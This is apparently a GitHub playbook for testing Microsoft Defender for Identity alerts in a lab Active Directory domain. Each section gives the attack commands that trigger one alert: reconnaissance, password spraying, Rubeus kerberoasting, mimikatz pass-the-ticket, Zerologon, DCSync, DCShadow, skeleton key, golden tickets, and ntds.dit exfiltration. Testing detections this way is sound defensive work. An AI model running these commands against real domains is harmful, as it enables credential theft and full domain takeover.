

# Playbook sample for Microsoft Defender for Identity (MDI)

As you know, MDI is a powerful solution to detect abnormal or suspicious activities from managed or unmanaged or even unknown machines targeting Domain Controllers.
When running a playbook or a pentesting ensure your MDI configuration is well configured and ready, especially with the machine learning period; please see linked-In article: https://www.linkedin.com/pulse/how-fully-evaluate-microsoft-defender-identity-mdi-pasquier-ceh/.

Keep in mind that tools used below are just sample ones and do not use hacking third party tools with production accounts.

Then from a new machine (fresh install, managed or unmanaged) try the following scenarios:

## Network mapping reconnaissance (DNS)

This reconnaissance is used by attackers to map your network structure and target interesting computers for later steps in their attack.

There are several query types in the DNS protocol. This Defender for Identity security alert detects suspicious requests, either requests using an AXFR (transfer) originating from non-DNS servers, or those using an excessive number of requests.

From a command line on a workstation run :  

```cmd
Nslookup 
server MSDemoDC01.msdemo.local
ls -d msdemo.local
```

You should see activity in success or failure (connection refused) and the alert:  

  

Detail in the alert:

  

## User and IP address reconnaissance

In this detection, an alert is triggered when an SMB session enumeration is performed against a domain controller; users and computers need at least to access the sysvol share in order to retrieve GPOs. Attacker can use this information to know where users recently logged on and move laterally in the network to get to a specific sensitive account.  

From a command line on a workstation run:

```cmd
NetSess.exe MSDemo-DC01.msdemo.local
```

Tools available from : http://www.joeware.net/freetools/tools/netsess/  

You should see activity and the alert in the client machine timeline :  

  

Detail in the alert:  

  

## User and group membership reconnaissance (SAMR)

In this detection, User and group membership reconnaissance are used by attackers to map the directory structure and target privileged accounts for later steps in their attack using SAMR protocol.

From a command line on a workstation with proper permissions, run:  

```cmd
net user /domain 
net group /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain 
net group "Schema Admins" /domain
```

You should see activity and the alert in the user timeline:  

  

Detail in the alert:  


## Security principal reconnaissance (LDAP)

In this detection, MDI looks for LDAP security principal reconnaissance which is commonly used as the first phase of a Kerberoasting attack. Kerberoasting attacks are used to get a target list of Security Principal Names (SPNs), which attackers then attempt to get Ticket Granting Server (TGS) tickets for.

From a command line on a workstation with proper permissions, run the tools from the French Security Agency (https://www.linkedin.com/company/anssi-fr/) for data collection:
  
```cmd
Oradad.exe
```

Tools available from : https://github.com/ANSSI-FR/ORADAD/releases
  
You should see the activities and the alert in the client machine timeline:  

  

Detail in the alert:  

  

## Honeytoken activity

This lure account should be attractive for attackers (attractive name or sensitive group membership..) and be left unused by your organization; any activity from them might indicate malicious behavior (LDAP, NTLM or Kerberos logon attempts).

From MSTSC.exe or from an interactive logon, try to logon using this account with a wrong password and/or valid password :  

You should see the logon activity and the alert in the Honey Token user timeline :  

  

Detail in the alert (failed logon attempt):  

  

## Active Directory attributes reconnaissance (LDAP)

Active Directory LDAP attributes reconnaissance is used by attackers to gain critical information about the domain environment, such as accounts with DES or RC4 kerberos cipher, accounts with Kerberos Pre-Authentication disabled and service account configured with Unconstrained Kerberos Delegation.

On a workstation, from adsisearcher (PowerShell) or any ldap browser such as ldp.exe set the following ldap filters :  

```ldap
(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2097152)) FindAll() => Enumerate accounts with Kerberos DES enabled

(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304)) FindAll() => Enumerate accounts with Kerberos Pre-Authentication disabled  

(&(objectCategory=computer)(!(primaryGroupID=516)(userAccountControl:1.2.840.113556.1.4.803:=524288))) FindAll() => Enumerate all servers configured for Unconstrained Delegation (Excluding DCs)  

(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2))) FindAll() => Enumerate all enabled accounts
```

or run from a command line with admin rights:  

```cmd
repadmin /showattr * DC=msdemo,DC=local ou repadmin /showattr * DC=msdemo,DC=local /subtree /filter:"((&(objectClass=computer)(msDS-AllowedToActOnBehalfOfOtherIdentity=*)))" /attrs:cn,msDs-AllowedToActOnBehalfOfOtherIdentity => Enumerate servers configured for Resource Based Constrained Delegation
```

You should see the activities and the alert in the client machine timeline :  

  

Detail in the alert:  

  

## Account enumeration reconnaissance

In this alert, Attacker makes Kerberos requests using a list of names to try to find a valid username in the domain; If a guess successfully determines a username, the attacker gets the WrongPassword (0xc000006a) instead of NoSuchUser (0xc0000064) NTLM error.

Build a users.txt list of names by merging some names from https://github.com/jeanphorn/wordlist/blob/master/usernames.txt and add some valid names from your organization.

Then, run the following command from a PowerShell session on a workstation :  

```cmd
Import-Module .\adlogin.ps1
adlogin users.txt msdemo.local P@ssw0rd!
```

Tools available from : https://github.com/jeanphorn/wordlist & https://github.com/InfosecMatter/Minimalistic-offensive-security-tools

You should see the activities and the alert in the client machine timeline :  

  

Detail in the alert:  

  

## Suspected AS-REP Roasting attack

In this detection, MDI looks if an Attacker use tools to detect accounts with their Kerberos preauthentication disabled and he sends AS-REQ requests without the encrypted timestamp. In response the attacker receives AS-REP messages with TGT data, which may be encrypted with an insecure algorithm such as RC4, and save them for later use in an offline password cracking attack (similar to Kerberoasting) and expose plaintext credentials.

From a command line on a workstation run:  

```cmd
Rubeus.exe kerberoast
Rubeus.exe kerberoast /tgtdeleg  
Rubeus.exe asktgs /service:http/msdemo-CM01.msdemo.local /ptt 
```

Tools available from : https://github.com/GhostPack/Rubeus or https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/tree/master/dotnet%20v4.5%20compiled%20binaries

You should see the activities and the alert in the user timeline :  

  

Detail in the alert:  

  

## Suspected Brute-Force Attack (Kerberos, NTLM and LDAP) & Password Spray attack

In this detection, an alert is triggered when many authentication failures occur using Kerberos, NTLM, or use of a password spray is detected. Using Kerberos or NTLM, this type of attack is typically committed either horizontal, using a small set of passwords across many users, vertical with a large set of passwords on a few users, or any combination of the two.

From a command line on a workstation, run :

```cmd
net user /domain >users.txt
```

This will retrieve the list of users in your domain. The result needs to be in one column

From a PowerShell command line on a workstation, run:  

```powershell
Import-Module .\adlogin.ps1 
adlogin users.txt msdemo.local P@ssw0rd => for a password spray attack by using one carefully crafted password against all of the known user accounts (one password to many accounts)
```

You should see the activities and the alert in the client machine timeline :  

  

Detail in the alert:  

  

For a brute force attack, try to logon on few accounts with multiple passwords.

You should see the activities and the alert in the client machine timeline:  

  

Detail in the alert:  

  

## Suspected identity theft (pass-the-ticket) & (pass-the-hash)

Pass-the-Ticket or Pass-The-Hash is a lateral movement technique in which attackers steal a Kerberos ticket or user's NTLM hash from one computer and use it to gain access to another computer by reusing the stolen ticket or user's NTLM hash.  
This detection is often miss-understanding; if you perform a Pass-The-Ticket from one security context to another security context on the same machine, you will not generate an MDI alert, this activity can only be seen with an EDR on a managed machine.  
What MDI can detect, without any client agent and even if the activity is seen from an unmanaged machine (without EPP or EDR), is one Kerberos ticket (TGT) was issued to a user on a specific machine (Name, IP) and the same ticket is seen coming from another machine (Name, IP), so MDI can trigger a Suspected identity theft.
In this detection a Kerberos ticket is seen used on two (or more) different computers.  

On the machine 1 (ADMIN-PC) where a domain user is in used (logon as Task, Service, RDP, Interactive..), from a command line run as local admin :

```cmd
mimikatz # privilege::debug 
mimikatz # sekurlsa::logonpasswords  
mimikatz # sekurlsa::tickets /export => rename the Nuck's TGT file (or whatever) to nuck.kirbi
```

On the machine 2 (VICTIM-PC), from a command line run as local admin :

```cmd
mimikatz # privilege::debug  
mimikatz # kerberos::ptt nuck.kirbi
mimikatz # Quit 
Klist => check if the TGT for nuck is loaded 
```

Perform an ldap bind (digest) using for example LDP.exe => the stolen TGT from machine 1 will be presented to a DC to issue a TGS for the ldap query

Tools available from : https://github.com/gentilkiwi/mimikatz/releases  
  
Detail in the alert:  

  

## Malicious request of Data Protection API (DPAPI) master key

DPAPI is used by Windows to securely protect passwords saved by browsers, encrypted files, Certificate’s private key, and other sensitive data. DCs hold a backup master key (RSA 2048) that can be used to decrypt all secrets encrypted with DPAPI on domain-joined Windows machines.  
This is needed when a user password is reset, the blob with sensitive data cannot be decrypted with the new password so a DC must retrieve the data using the master key.  
Attackers can use the master key to decrypt any secrets protected by DPAPI on all domain-joined machines. In this detection, a MDI alert is triggered when the DPAPI is used to retrieve the backup master key.  

From a command line on workstation run with and admin account :  

```cmd
mimikatz # privilege::debug
mimikatz # lsadump::backupkeys /system:msdemo-DC01 /export 
```

Tools available from : https://github.com/gentilkiwi/mimikatz/releases  

You should see the activities and the alert in the user timeline:  

  

Detail in the alert:  

  

## Suspected skeleton key attack (encryption downgrade)

Skeleton Key is malware that runs on domain controllers and allows authentication to the domain with any account without knowing its password. This malware often uses weaker encryption algorithms to hash the user's passwords on the domain controller.  
It means the attacker can use the same password for any AD accounts without the need to reset or change the original accounts's password.  
In this alert, the learned behavior of previous KRB_ERR message encryption from domain controller to the account requesting a ticket, was downgraded.

**Be careful, never run an untrusted tools on a production DC! Once the DC is impacted, there is no easy rollback, the DC has to be demoted!**  

From a command line on a workstation with a shell on DC, run as AD admin :

```cmd
mimikatz # privilege::debug 
mimikatz # misc::skeleton  => "mimikatz" should be the master password  
```

Tools available from : https://github.com/gentilkiwi/mimikatz/releases  

Detail in the alert:  

  

## Suspected Netlogon privilege elevation attempt (CVE-2020-1472 exploitation)
  
The alert is triggered if an attacker attempts to establish a vulnerable Netlogon secure channel connection to a DC, using the Netlogon Remote Protocol (MS-NRPC), also known as Netlogon Elevation of Privilege Vulnerability.

From a command line on a workstation run with a local admin account:

```cmd
mimikatz # privilege::debug 
mimikatz # lsadump::zerologon /server:msdemo-DC01.msdemo.local /account:msdemo-DC01$ /exploit  
```

Tools available from : https://github.com/gentilkiwi/mimikatz/releases  

Detail in the alert:  

  

## Suspicious network connection over Encrypting File System Remote Protocol

This detection is triggered when an attacker tries to take over an AD Domain by exploiting a flaw in the Encrypting File System Remote (EFSRPC) Protocol.

From a command line on a workstation run with a local admin account:  

```cmd
mimikatz # privilege::debug  
mimikatz # misc::efs /server:10.4.0.100 /connect:10.4.0.13 /noauth
```

Tools available from : https://github.com/gentilkiwi/mimikatz/releases  

Detail in the alert:  


## Suspected DCSync attack (replication of directory services)

If an attacker has the "DS-Replication-Get-Changes-All" permission for example, he can initiate a replication request to retrieve the data stored in Active Directory such as the krbtgt's password hash.  
In this detection, an alert is triggered when a replication request is initiated from a computer that isn't a DC.  

From a command line on a workstation run with a least local admin account :  

```cmd
mimikatz # privilege::debug  
mimikatz # lsadump::dcsync /domain:msdemo.local /user:krbtgt  => to retrieve the krbtgt's password hash and move to a golden ticket attack
```

Tools available from : https://github.com/gentilkiwi/mimikatz/releases  

You should see the activities and the alert in the client machine timeline :  

  

In the alert Compay Segundo failed to retrieve the DCsync (not enough permission):  

  

## Suspected DCShadow attack (domain controller promotion) & (domain controller replication request)

Two alerts are available but let's focus only on the "Domain controller replication request" alert; in this scenario, attackers strive to initiate a malicious replication request, allowing them to change Active Directory objects on a genuine DC, which can give the attackers persistence in the domain.

From a command line on a workstation run with AD admin account :  

```cmd
mimikatz # privilege::debug  
mimikatz # lsadump::dcshadow /object:krbtgt /attribute=ntPwdHistory /value:0000000000 
mimikatz # lsadump::dcshadow /push  
```

Tools available from : https://github.com/gentilkiwi/mimikatz/releases  

Detail in the alert :  

  

## Remote code execution attempts

MDI detects PSexec, Remote WMI, and PowerShell connections from a client machine to a DC. Attackers can execute remote commands on your DC or AD FS server to create persistence, collect cata or perform a denial of service (DOS).

From a command line on a workstation run with AD admin account :  

```cmd
PSExec.exe -s -i \\msdemo-dc01 powershell.exe  => to start a PowerShell session on DC
```

Tools available from : https://docs.microsoft.com/en-us/sysinternals/downloads/

Detail in the alert :  


## Data exfiltration over SMB

This alert is triggered when suspicious transfers of data are observed from your monitored DCs, such as when an attacker copies the ntds.dit file from a DC to a workstation.

From a command line on a workstation run with AD admin account :  

```cmd
PSEexec -s -i \\msdemo-DC01 cmd.exe => to get a cmd session on a DC  
Esentutl /y /i c:\windows\ntds\ntds.dit /d c:\windows\ntds.dit => to get a copy of the ntds.dit file for an exfiltration  
copy c:ntds.dit to z: => copy the ntds.dit file from the DC to your workstation (Z:)
```

Tools available from : https://docs.microsoft.com/en-us/sysinternals/downloads/  

Detail in the alert :  


Keep in mind that MDI can also track files uploaded from workstation or server to a DC; this can be useful to detect abnormal activities (see https://github.com/DanielpFR/MDI/#tips-3--list-of-files-copied-from-a-client-to-dcs-over-the-last-30-days). You should see this type of activities from the user timeline :  

  

## Suspected Golden Ticket usage (encryption downgrade) & (nonexistent account) & (Time anomaly)

MDI can detect 6 types of Golden Ticket attack; let see 2 of them.  
Using the krbtgt's password hash from the DCsync; attackers can now create a Kerberos ticket granting ticket (TGT) that provides authorization to any resource and set the ticket expiration to any arbitrary time. This fake TGT is called a "Golden Ticket" and allows attackers to achieve network persistence.  

From a command line on a workstation, run with local admin account:  

```cmd
mimikatz # privilege::debug 
mimikatz # lsadump::dcsync /domain:msdemo.local /user:krbtgt  => to get the krbgt's password hash needed for the /rc4:...  
mimikatz # Kerberos::golden /domain:msdemo.local /sid:S-1-5-21-4112553867-xxxxxxxxxxxx /rc4:xxxxxxxxxxxxxxx /user:administrator /id:500 /groups:513,512,520,518,519 /ticket:administrator.kirbi => create a fake TGT for the default administrator account (RID=500) and add sensitives RID groups  
mimikatz # kerberos::ptt administrator.kirbi => load the fake TGT  
mimikatz # misc::cmd => open a cmd  
klist => check if the TGT is loaded  
ldp.exe => then bind (digest) to an ldap server to use the fake TGT for encryption downgrade detection

mimikatz # privilege::debug 
mimikatz # lsadump::dcsync /domain:msdemo.local /user:krbtgt  => to get the krbgt's password hash needed for the /rc4:...  
mimikatz # Kerberos::golden /domain:msdemo.local /sid:S-1-5-21-4112553867-xxxxxxxxxxxx /rc4:xxxxxxxxxxxxxxx /user:XYZ /id:500 /groups:513,512,520,518,519,1107 /ticket:XYZ.kirbi => create a fake TGT for the nonexistent account and add sensitives RID groups (valid for 2àmn)
mimikatz # kerberos::ptt XYZ.kirbi => load the fake TGT
klist => check if the TGT is loaded
ldp.exe => then bind (digest) to an ldap server to use the fake TGT for nonexistent account detection  
```

Tools available from : https://github.com/gentilkiwi/mimikatz/releases  

Detail in the alert :  

  
  

## Suspicious additions to sensitive groups

Attackers could add users to highly privileged groups to gain access to more resources, and gain persistency. This alert needs a machine learning period (such as : this user usually does not perform this addition to sensitive groups...etc).

From a workstation with RSAT start with an AD admin account:  

`dsa.msc`  => and add a user to a sensitive groups such as Enterprise Admins or Domain Admins  

Tools available from : https://www.microsoft.com/en-us/download/details.aspx?id=45520  

You should see the activities and the alert in the user timeline :  

  

Detail in the alert:  

  

## Next steps

- [Microsoft Defender for Identity Security Alerts](alerts-overview.md)
